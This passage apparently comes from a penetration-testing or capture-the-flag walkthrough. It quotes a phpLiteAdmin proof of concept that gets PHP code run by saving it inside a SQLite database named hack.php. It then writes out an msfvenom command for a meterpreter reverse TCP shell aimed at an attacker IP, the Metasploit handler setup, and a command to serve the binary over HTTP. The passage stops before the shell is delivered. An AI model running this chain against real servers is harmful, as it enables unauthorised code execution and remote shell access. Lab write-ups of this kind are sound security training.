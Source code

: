 ```
An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.


2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>


3. Now we run hack.php

Done!

```

----


## uploading a shell

I tried uploading a php webshell, but it doesn't work. so we will have to create a reverse tcp one instead and find a way to get it into the machine.
we can create this reverse shell with `msfvenom`

` msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<attackerIP> LPORT=443 -f elf -o shell `

fire up metasploit in order to setup a handler for the reverse_tcp tunnel:

```
systemctl start postgresql
msfconsole -q
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <attackerip>
set LPORT 443
run

```

setup simplehttpserver to serve the binary

```
cd <dirwheregeneratedmsfvenomshellislocated>
pyhton -m SimpleHTTPServer

```
